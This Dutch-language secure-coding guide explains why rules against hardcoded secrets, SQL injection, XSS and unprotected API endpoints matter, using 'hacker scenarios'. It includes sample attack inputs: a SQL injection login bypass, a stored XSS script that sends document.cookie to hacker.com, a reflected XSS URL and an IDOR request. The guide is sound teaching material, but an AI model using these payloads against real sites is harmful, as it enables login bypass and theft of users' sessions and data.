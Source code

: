 # VibeCoding Beveiligingsrichtlijnen Uitgelegd: Waarom Hameren We Zo Door?

Dit document legt het belang uit van elke regel in de "Beveiligingsrichtlijnen". Dit begrijpen zal je helpen je code te zien vanuit het "perspectief van een hacker" en problemen te voorkomen voordat ze optreden.

---

## ⭐ Gouden Regels

### 【Nooit geheimen hardcoden】 & 【Omgevingsvariabelen gebruiken】 & 【Geheime bestanden negeren】

**Waarom is dit belangrijk?**

Deze drie regels zijn de hoogste overlevingswetten van de digitale wereld. Je code (vooral bij gebruik van Git) wordt gekopieerd, gedeeld en opgeslagen op meerdere plaatsen. Wachtwoorden, API-sleutels en andere "geheimen" direct in code schrijven is zoals het wachtwoord van je kluis op je voorhoofd tatoeëren - iedereen die je ziet (de code ziet) kan gemakkelijk je kluis openen.

**Hacker Scenario 😈**
> Ik hou ervan om te zoeken naar `password`, `api_key` of `db_connect` op GitHub. Ik vond je openbare project en in een bestand genaamd `config.js` zag ik deze code: `const db_password = 'Password123!';`. Perfect! Ik hoef je site niet eens aan te vallen - nu kan ik proberen direct verbinding te maken met je database met dit wachtwoord.

**Catastrofale Gevolgen 💥**

**Volledige controle over de service.** Hackers kunnen alle gebruikersdata stelen, wijzigen, verwijderen, of je betaalde API-services gebruiken voor illegale activiteiten, met alle rekeningen op jouw naam.

---

## 📥 Gebruikersinvoer Verwerking

### 【SQL Injectieaanvallen Voorkomen】

**Waarom is dit belangrijk?**

Stel je de database voor als een robot die alleen de SQL-taal begrijpt. Als je gebruikersinvoer direct samenvoegt met je commando's, krijgen gebruikers de kans om hun eigen "commando's" uit te spreken. Geparametriseerde queries vertellen de robot: "Luister, het volgende deel zijn **alleen data** - wat de inhoud ook is, voer het niet uit als commando's."

**Hacker Scenario 😈**
> In het loginveld van je site voerde ik `' OR '1'='1' --` in als gebruikersnaam. Ik neem aan dat je SQL-query zo geschreven is: `"SELECT * FROM users WHERE username = '" + userInput + "';`. Mijn invoer transformeerde het naar `SELECT * FROM users WHERE username = '' OR '1'='1' --';`. `'1'='1'` is altijd waar, dus ik omzeilde de wachtwoordverificatie en logde succesvol in op het eerste gebruikersaccount (meestal de beheerder).

**Catastrofale Gevolgen 💥**

Aanvallers kunnen login omzeilen, alle database data stelen (gebruikerslijsten, wachtwoord hashes), of zelfs de database verwijderen.

### 【Cross-Site Scripting (XSS) Aanvallen Voorkomen】

**Waarom is dit belangrijk?**

Als je website is zoals een spiegel die gebruikersinvoer direct weerkaatst, dan kunnen gebruikers kwaadaardige JavaScript scripts in de inhoud inbouwen. Wanneer andere gebruikers deze inhoud bekijken, wordt het kwaadaardige script uitgevoerd in hun browsers, waardoor hun informatie wordt gestolen. HTML entiteit codering converteert speciale karakters in kwaadaardige scripts (zoals `<`, `>`) naar onschadelijke platte tekst, waardoor ze niet uitvoerbaar zijn.

**Hacker Scenario 😈**
> Ik liet een reactie achter in de reactiesectie van je artikel: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. Deze tekst werd opgeslagen in de database zoals het was. Nu zal elke gebruiker die deze reactie leest automatisch dit script laten uitvoeren door hun browser, waardoor hun login cookies naar mijn server worden gestuurd. Met de cookies kan ik hun identiteit nadoen om in te loggen op de website.

**Geavanceerde Aanvalsmethode: Hoe Kan Code van Gebruiker A de Data van Gebruiker B Stelen?**

Veel mensen vragen zich af: "De aanvaller heeft mijn website niet gewijzigd, dus hoe kan hij de data van andere gebruikers stelen?" Laat me het uitleggen met een compleet voorbeeld:

1. **Aanvaller A creëert een kwaadaardige link**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **Aanvaller misleidt slachtoffer B door social engineering**
   - Email: "Bekijk het fantastische werk van deze fotograaf!"
   - Social media posts, forum reacties, etc.

3. **Wat gebeurt er wanneer slachtoffer B op de link klikt?**
   ```php
   // Jouw code (kwetsbaar)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // Werkelijke output naar B's browser
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **Waarom kunnen ze B's data stelen?**
   - B is al ingelogd op jouw website
   - Het kwaadaardige script draait onder **jouw domein**, dus het kan:
     - B's cookies lezen (login credentials)
     - Toegang krijgen tot B's localStorage
     - Verzoeken doen namens B
     - Pagina-inhoud wijzigen (bijv: nep login formulieren)

**Eenvoudige Analogie**
Stel je voor dat jouw website een bank is:
- Aanvaller A plaatst een "nep opnamebewijs" (kwaadaardig script) in de banklobby
- Klant B denkt dat het legitiem is en voert zijn wachtwoord in
- A krijgt B's wachtwoord

XSS stelt aanvallers in staat om "nep opnamebewijzen" (kwaadaardige code) te plaatsen in jouw "banklobby" (website).

Daarom moet je `htmlspecialchars()` gebruiken - het zorgt ervoor dat alle gebruikersinvoer wordt weergegeven als platte tekst, niet als uitvoerbare code.

**Catastrofale Gevolgen 💥**

Massale diefstal van gebruikersaccounts, lekkage van persoonlijke data, websites geïnfiltreerd met phishing inhoud of mining scripts.

---

## 🔐 Rechten en Authenticatie

### 【API Endpoint Bescherming】

**Waarom is dit belangrijk?**

Frontend interfaces (UI) kunnen knoppen verbergen, maar hackers vertrouwen nooit op interfaces. Ze roepen je backend API's direct aan met tools (zoals Postman, curl). Je moet aannemen dat elk API endpoint direct aangevallen wordt, dus elk endpoint moet een onafhankelijke bewaker zijn die zelf de identiteit en rechten van bezoekers controleert.

**Hacker Scenario 😈**
> Ik ontdekte dat om persoonlijke informatie te wijzigen, de frontend een verzoek stuurt naar `/api/user/update`. Hoewel ik geen bewerkingsknoppen van andere mensen kan zien, neem ik aan dat deze API gebruikers onderscheidt via `userId`. Ik probeerde een verzoek te sturen naar `/api/user/update?userId=1` (beheerder ID) met de data die ik wilde wijzigen. Mijn God, de server controleerde niet of het verzoek persoonlijk van mij kwam en veranderde succesvol de email van de beheerder!

**Catastrofale Gevolgen 💥**

Gewone gebruikers kunnen data van andere gebruikers of zelfs beheerders wijzigen, of rechten uitvoeren die ze niet zouden moeten hebben, wat systeemchaos veroorzaakt.